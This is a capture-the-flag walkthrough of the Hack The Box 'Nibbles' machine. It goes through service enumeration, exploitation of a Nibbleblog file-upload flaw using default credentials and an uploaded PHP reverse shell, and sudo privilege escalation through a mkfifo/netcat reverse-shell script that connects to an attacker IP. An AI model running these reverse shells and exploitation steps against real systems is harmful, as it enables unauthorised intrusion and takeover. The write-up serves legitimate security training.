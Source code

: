 ```yaml
---
cover: ../../../.gitbook/assets/Nibbles.png
coverY: 247.12533333333332
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Nibbles

`CVE-2015-6967` `file upload` `php` `sudo`

```bash
john@attack> echo '10.129.96.84 nibbles.htb' | sudo tee -a /etc/hosts
john@attack> nmap nibbles.htb -sV
```

| Port     | Version                         |
| -------- | ------------------------------- |
| `22/tcp` | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 |
| `80/tcp` | Apache httpd 2.4.18             |

```bash
john@attack> curl http://nibbles.htb
```

Content is on http://nibbles.htb/nibbleblog.

<figure><img src="../../../.gitbook/assets/nibbles4.png" alt=""><figcaption></figcaption></figure>

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2987
```

Directories found : `/content` `/themes` `/admin` `/plugins` `/README` `/languages`

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ.php -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2986
```

Files found : `/sitemap.php` `/feed.php` `/admin.php` `/install.php` `/update.php`

```bash
john@attack> curl http://nibbles.htb/nibbleblog/README | less
```

Nibbleblog version : `v4.0.3`. It exists an exploit for this version : https://nvd.nist.gov/vuln/detail/CVE-2015-6967

<figure><img src="../../../.gitbook/assets/nibbles8.png" alt=""><figcaption></figcaption></figure>

The default credentials are `admin:nibbles`.

```bash
john@attack> cp usr/share/webshells/php/php-reverse-shell.php image.php
```

Change the IP address in the file `image.php` by the attacker IP address. Then upload this file and save.

<figure><img src="../../../.gitbook/assets/nibbles10.png" alt=""><figcaption></figcaption></figure>

```bash
   john@attack> nc -lnvp 1234 &
   john@attack> curl http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
   john@attack> CTRL+C
   john@attack> fg
nibbler@target> cat /home/nibbler/user.txt  # flag
nibbler@target> sudo -l
```

<figure><img src="../../../.gitbook/assets/nibbles13.png" alt=""><figcaption></figcaption></figure>

```bash
nibbler@target> unzip /home/nibbler/personal.zip
   john@attack> vi monitor.sh
```

Edit the content of the `monitor.sh` file.

```bash
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.45 1235 >/tmp/f
```

```bash
nibbler@target> nc -lnvp 8000 > /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc nibbles.htb 8000 < monitor.sh
```

Target has received the `monitor.sh` corrupted file.

```bash
nibbler@target> chmod +x /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc -lnvp 1235
nibbler@target> sudo /home/nibbler/personal/stuff/monitor.sh
   root@target> cat /root/root.txt # flag
```

